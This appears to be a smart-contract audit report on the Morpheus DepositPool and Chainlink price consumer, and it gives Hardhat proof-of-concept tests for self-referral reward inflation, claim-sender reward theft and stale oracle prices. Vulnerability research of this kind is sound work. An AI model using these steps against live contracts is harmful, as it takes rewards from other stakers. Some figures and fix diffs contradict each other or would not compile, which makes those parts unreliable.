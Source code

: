 # High 

## [H-1] Self-Referral Lets Malicious Users to Unfairly Receive Rewards
### Links
https://github.com/code-423n4/2025-08-morpheus/blob/a65c254e4c3133c32c05b80bf2bd6ff9eced68e2/contracts/capital-protocol/DepositPool.sol#L254

### Finding description
The `DepositPool::stake()` function allows users to stake tokens in the system. In addition, the protocol has implemented a referral system. Because of this, a user is able to also pass in a referrer address to the stake function in order to participate in the referral system.

However, a malicious user is able to simply add their own address and act as their own referrer. This allows them to be able to receive the 1% addition in rewards for being the referee and also additional rewards for being the referrer.

### Impact & Likelihood
**Impact:** High
By setting themselves as their own referrer, a user can inflate their rewards by up to 6% (1% referee bonus + 5% referrer bonus for Tier 3, achieved with ≥ 350 stETH staked). This unfairly reduces the MOR reward pool for legitimate participants, as self-referring users gain additional rewards without contributing to community growth.

**Likelihood:** High
The exploit requires only a single call to `stake` with the user’s own address as `referrer_`, which is straightforward and requires no special conditions or permissions.

### Proof of Concept
The following test can be added to the `POC.test.ts` file. However, does also need an additional import that is specified bellow: 

<details><summary>Code PoC</summary>

```ts
import { getDefaultPool, getDefaultReferrerTiers, oneDay, oneHour } from './helpers/distribution-helper';

it('POC-Audit-4: DepositPool - Self-Referral Reward Manipulation', async function () {
      // Setup reward pool timestamp & Referrer Tiers
      await distributor.setRewardPoolLastCalculatedTimestamp(publicRewardPoolId, 1);
      const referrerTiers = getDefaultReferrerTiers();
      await depositPool.editReferrerTiers(publicRewardPoolId, referrerTiers);

      // Set time to start reward distribution
      await setNextTime(oneDay * 11);

      // Step 1: Alice stakes with self-referral
      const stakeAmount = wei(100); // 100 stETH
      await depositToken.mint(alice.address, stakeAmount);
      await depositToken.connect(alice).approve(depositPool.getAddress(), stakeAmount);
      await depositPool.connect(alice).stake(publicRewardPoolId, stakeAmount, 0, alice.address); // Self-referral
      const aliceData = await depositPool.usersData(alice.address, publicRewardPoolId);
      console.log('Alice deposited:', ethers.formatEther(aliceData.deposited), 'stETH');
      console.log('Alice virtual deposited (self-referral):', ethers.formatEther(aliceData.virtualDeposited), 'stETH');

      // Step 2: Bob stakes without referral for comparison
      await depositToken.mint(bob.address, stakeAmount);
      await depositToken.connect(bob).approve(depositPool.getAddress(), stakeAmount);
      await depositPool.connect(bob).stake(publicRewardPoolId, stakeAmount, 0, ZERO_ADDR); // No referrer
      const bobData = await depositPool.usersData(bob.address, publicRewardPoolId);
      console.log('Bob deposited:', ethers.formatEther(bobData.deposited), 'stETH');
      console.log('Bob virtual deposited (no referral):', ethers.formatEther(bobData.virtualDeposited), 'stETH');

      // Step 3: Check referrer data for Alice
      const referrerData = await depositPool.referrersData(alice.address, publicRewardPoolId);
      console.log('Alice referrer virtual amount staked:', ethers.formatEther(referrerData.virtualAmountStaked), 'stETH');

      // Step 4: Validate exploit
      // Assume _getUserTotalMultiplier gives 1% bonus for referee (1.01x) and _applyReferrerTier gives 3% for Tier 0
      const expectedAliceVirtual = stakeAmount * 101n / 100n; // 1% referee bonus
      const expectedBobVirtual = stakeAmount; // No bonus
      const expectedAliceReferrerBonus = stakeAmount *3n / 100n; // 2.5% Tier 0 bonus
      expect(aliceData.virtualDeposited).to.equal(expectedAliceVirtual, 'Alice should get 1% referee bonus');
      expect(bobData.virtualDeposited).to.equal(expectedBobVirtual, 'Bob should get no bonus');
      expect(referrerData.virtualAmountStaked).to.equal(wei(2.5), 'Alice’s referrer data should track her stake');
      console.log('Exploit: Alice gains 1% referee bonus and 2.5% referrer bonus by self-referring');
    });
```

</details><br>

Output from running the test:

<details><summary>Output</summary>

```zsh
  Morpheus Capital Protocol - POC Test Suite
    POC Templates
Alice deposited: 100.0 stETH
Alice virtual deposited (self-referral): 101.0 stETH
Bob deposited: 100.0 stETH
Bob virtual deposited (no referral): 100.0 stETH
Alice referrer virtual amount staked: 2.5 stETH
Exploit: Alice gains 1% referee bonus and 3% referrer bonus by self-referring
      ✔ POC-Audit-4: DepositPool - Self-Referral Reward Manipulation (53ms)


  1 passing (2s)
```
</details><br>

**Explanation:**
- Alice stakes 100 stETH with herself as the referrer, gaining a 1% referee bonus (`virtualDeposited = 101 stETH`).
- Her `referrersData.virtualAmountStaked` is set to 2.5 stETH, reflecting a 2.5% referrer bonus for Tier 0, allowing her to claim additional `MOR` rewards via `claimReferrerTier`.
- Bob stakes 100 stETH without a referrer, receiving no bonus (`virtualDeposited = 100 stETH`).
- The exploit demonstrates that Alice unfairly gains a total of 3.5% extra rewards (1% + 2.5%) without referring others. For larger stakes (≥ 350 stETH), this could increase to 6% (1% + 5% for Tier 3).

### Recommendation
Add a check that either reverts if someone put themselves as the referrer or perhaps changes it back to `address(0)`.

Example:
<details><summary>Diff</summary>

```diff
function _stake(
    address user_,
    uint256 rewardPoolIndex_,
    uint256 amount_,
    uint256 currentPoolRate_,
    uint128 claimLockEnd_,
    address referrer_
) private {
    require(isMigrationOver == true, "DS: migration isn't over");
+   require(referrer_ != _msgSender(), "DS: cannot self-refer"); 
    // ...
}
```
</details><br>

## [H-2] Claim Senders Can Steal the Stakers Rewards
### Links
https://github.com/code-423n4/2025-08-morpheus/blob/a65c254e4c3133c32c05b80bf2bd6ff9eced68e2/contracts/capital-protocol/DepositPool.sol#L294

### Finding description
The protocol allows users to add addresses that could claim the rewards on their behalf, but these senders do not receive the rewards they only call claim to get the rewards back to the original staker. The staker will call the `DepositPool::setClaimSender` function to do so. 

The issue arises as the're are not enough checks to make sure that the arbitrary receiver is permissioned. 

A user that has been added to the claim senders can call `DepositPool::claimFor` and put any address in the `receiver_` parameter. This can happen if the staker has not set a receiver address using the `DepositPool::setClaimReceiver` function. 

Here is a walkthrough of the checks:
1. Checking if staker has set a receiver address.
2. If so we set the receiver. So far so good.
3. If staker has not set a receiver we make sure the caller is allowed to claim on behalf of staker. This is ok but should really be checked regardless.
4. No other checks for arbitrary receiver. And claiming continues. 

<details><summary>Code Snippet</summary>

```solidity
function claimFor(uint256 rewardPoolIndex_, address staker_, address receiver_) external payable {
        // 1.
        if (claimReceiver[rewardPoolIndex_][staker_] != address(0)) {
        // 2. 
            receiver_ = claimReceiver[rewardPoolIndex_][staker_];
        } else {
        // 3. 
            require(claimSender[rewardPoolIndex_][staker_][_msgSender()], "DS: invalid caller");
        }

        // 4. 
        _claim(rewardPoolIndex_, staker_, receiver_); 
    }
```

<details><br>

### Impact & Likelihood
**Impact:** High
This vulnerability allows sender claimers to steal the rewards from the stakers. This functionality is only intended to claim the rewards on behalf of staker and for the rewards to be sent to staker. Stealing of another users funds!

**Likelihood:** Medium
Not all users will use the senders functionality and this can be prevented if they do set a receiver. However, if they allow senders without specified receiver all their rewards are at risk. 

### Proof of Concept
This PoC lacks the showing of balance movement. This is because of the way the mock of the `LayerZeroEndPointV2Mock` is structured. It did not match the actual contract and kept causing issues like this output:

<details><summary>Sample output of issue</summary>

```zsh
  1) Morpheus Capital Protocol - POC Test Suite
       POC Templates
         POC-1: DepositPool - Bob claims rewards on behalf of alice even if not receiver:
     Error: Transaction reverted: function selector was not recognized and there's no fallback function
```

</details><br>

In order to make the PoC pass I had to go into the `LayerZeroEndPointV2Mock` and place an empty but correctly structured `send` function (as used in the `L1Sender` contract). This was left empty as it took to much time to do this myself and it does need doing to prove the point of the exploit:

<details><summary>Code Snippet</summary>

```solidity
    function send(
        uint16 _dstChainId,
        bytes calldata _destination,
        bytes calldata _payload,
        address payable _refundAddress,
        address _zroPaymentAddress,
        bytes calldata _adapterParams
    ) external payable {
    }
```

</details><br>

Here is the PoC that shows the exploit. Can be added in `POC.test.ts`:

<details><summary>Code PoC</summary>

```ts
    it('POC-1: DepositPool - Bob claims rewards on behalf of alice even if not receiver', async function () {
      // Setup reward pool timestamp (required before any staking)
      await distributor.setRewardPoolLastCalculatedTimestamp(publicRewardPoolId, 1);
      
      // Setting up L1Sender:
      await l2MessageReceiver.setParams(mor, {
        gateway: lzEndpointL1,
        sender: l1Sender,
        senderChainId: l1ChainId,
      });

      await l1Sender.setLayerZeroConfig({
        gateway: lzEndpointL1,
        receiver: l2MessageReceiver,
        receiverChainId: l2ChainId,
        zroPaymentAddress: ZERO_ADDR,
        adapterParams: '0x',
      });
      await l1Sender.setDistributor(distributor);

      // Set time to start reward distribution
      await setNextTime(oneDay * 11);

      // 1. Alice stakes tokens
      await depositPool.connect(alice).stake(publicRewardPoolId, wei(100), 0, ZERO_ADDR);
      await depositPool.connect(alice).lockClaim(publicRewardPoolId, oneDay * 18);

      // 2. Alice adds Bob to be a claim sender but not receive. Meaning Bob can claim rewards ob Alice's behalf but not receive the rewards. Alice does not set a receiver.
      const sendersList: Array<AddressLike> = [bob.address];
      const allowedList: Array<boolean> = [true];
      await depositPool.connect(alice).setClaimSender(publicRewardPoolId, sendersList, allowedList);

      // Fast forward time
      await setNextTime(oneDay * 19);
      // Making sure Alice has some rewards
      const aliceData = await depositPool.usersData(alice.address, publicRewardPoolId);
      expect(aliceData.pendingRewards).to.not.equal(0, 'No rewards for Alice');

      // 3. Bob calls `claimFor` but leaves himself as the receiver
      await depositPool.connect(bob).claimFor(publicRewardPoolId, alice, bob, { value: wei(0.1) } );
    });
```

</details><br>

This is passing. Which indicates that, at no point, the protocol stops this behavior. 

### Recommendation
Add more checks to make sure that the arbitrary receiver parameter is correct. Another option would be that if staker has not specified receiver, we put the stakers address instead. Which eliminates the arbitrary receiver in the first place, which I recommend. Also make sure that the check for sender is done for all scenarios:

```diff
- function claimFor(uint256 rewardPoolIndex_, address staker_, address receiver_) external payable {
+ function claimFor(uint256 rewardPoolIndex_, address staker_) external payable {
+       require(claimSender[rewardPoolIndex_][staker_][_msgSender()], "DS: invalid caller");
+
        if (claimReceiver[rewardPoolIndex_][staker_] != address(0)) {
            receiver_ = claimReceiver[rewardPoolIndex_][staker_];
        } else {
+           receiver_ = staker_
-           require(claimSender[rewardPoolIndex_][staker_][_msgSender()], "DS: invalid caller");
        }

        _claim(rewardPoolIndex_, staker_, receiver_); 
    }
}
```

# Medium

## [M-1] Missing `roundId` vs. `answeredInRound` Check on Chainlink Feed
### Finding description
The `getChainLinkDataFeedLatestAnswer` function does not verify that `answeredInRound >= roundId`, risking the use of stale price data if the oracle’s round updates are delayed.

The function, as of now, does validate the allowed time for `block.timestamp` and that the `answer` is positive and non zero. However, it is considered best practice to check that the `answeredInRound` is not stale. This check is not utilised in the function.

### Impact & Likelihood
- **Impact:**
Stale data could lead to stale pricing and could affect the correct operation of the protocol and user funds.

Therefore, deemed as HIGH.

- **Likelihood:**
There are some checks the exist already that could potentially catch most issues. However, these checks fail to cover everything. 

Therefore, deemed as LOW. 

### Proof of Concept
Paste the following test in the POC.test.ts test suite:

<details><summary>Code PoC</summary>

```ts
    it('POC: ChainLinkDataConsumer - Stale Price Data Accepted Due to Missing roundId vs. answeredInRound Check', async function () {
      // Set allowed price update delay
      await chainLinkDataConsumer.setAllowedPriceUpdateDelay(3600); // 1 hour

      // Step 1: Configure the ETH/USD feed to return stale data
      const currentTime = await getCurrentBlockTime();
      const initialPrice = wei(2000, 18); // $2000/ETH
      const stalePrice = wei(1000, 18); // Stale price from an earlier round

      // Set a valid initial price for the current round
      await ethUsdFeed.setAnswerResult(initialPrice);
      await ethUsdFeed.setUpdated(currentTime);
      await ethUsdFeed.setRoundData(2, initialPrice, currentTime, currentTime, 2); // roundId=2, answeredInRound=2

      // Step 2: Simulate a new round with no answer update (stale data)
      await ethUsdFeed.setRoundData(3, stalePrice, currentTime - 1800, currentTime - 1800, 1); // roundId=3, answeredInRound=1
      await ethUsdFeed.setUpdated(currentTime - 1800); // Within allowedPriceUpdateDelay (3600 seconds)

      // Step 3: Fetch price from ChainLinkDataConsumer
      const pathId = await chainLinkDataConsumer.getPathId('ETH/USD');
      const price = await chainLinkDataConsumer.getChainLinkDataFeedLatestAnswer(pathId);

      // Step 4: Validate the vulnerability
      // The contract should return 0 or revert due to stale data (answeredInRound < roundId), but it returns the stale price
      expect(price).to.equal(stalePrice, 'ChainLinkDataConsumer accepted stale price data');
      console.log('ETH/USD price (stale):', ethers.formatEther(price), 'USD');
      console.log('Expected behavior: Contract should revert or return 0 due to answeredInRound < roundId');

      // Step 5: Demonstrate correct behavior with fresh data
      await ethUsdFeed.setRoundData(4, initialPrice, currentTime, currentTime, 4); // Fresh data: roundId=4, answeredInRound=4
      await ethUsdFeed.setUpdated(currentTime);
      const freshPrice = await chainLinkDataConsumer.getChainLinkDataFeedLatestAnswer(pathId);
      expect(freshPrice).to.equal(initialPrice, 'ChainLinkDataConsumer returned correct price for fresh data');
      console.log('ETH/USD price (fresh):', ethers.formatEther(freshPrice), 'USD');
    });
```

</details><br>

This best practice is also described in the following well known X thread which describes best practices: https://x.com/saxenism/status/1656632744279982080

In addition in the following finding found in the `Tigris Trade` contest:
https://solodit.cyfrin.io/issues/m-24-chainlink-price-feed-is-not-sufficiently-validated-and-can-return-stale-price-code4rena-tigris-trade-tigris-trade-contest-git

### Recommendation
Update the `Distributor::updateDepositTokensPrices` function so it also makes sure the answer that was received is not stale:

<details><summary>Diff</summary>

```diff
function getChainLinkDataFeedLatestAnswer(bytes32 pathId_) external view returns (uint256) {
    ...Code Snip...
-   try aggregator_.latestRoundData() returns (uint80, int256 answer_, uint256, uint256 updatedAt_, uint80) 
+   try aggregator_.latestRoundData() returns (uint80 roundId, int256 answer_, uint256, uint256 updatedAt_, uint80 answeredInRound) {
        if (answer_ <= 0) {
            return 0;
        }

+       if (answeredInRound < roundId) {
+           return 0;
+       }

        if (block.timestamp < updatedAt_ || block.timestamp - updatedAt_ > allowedPriceUpdateDelay) {
            return 0;
        }

        ...Code Snip...
    }
    ...Code Snip...
}
```

</details><br>

# Low


# Info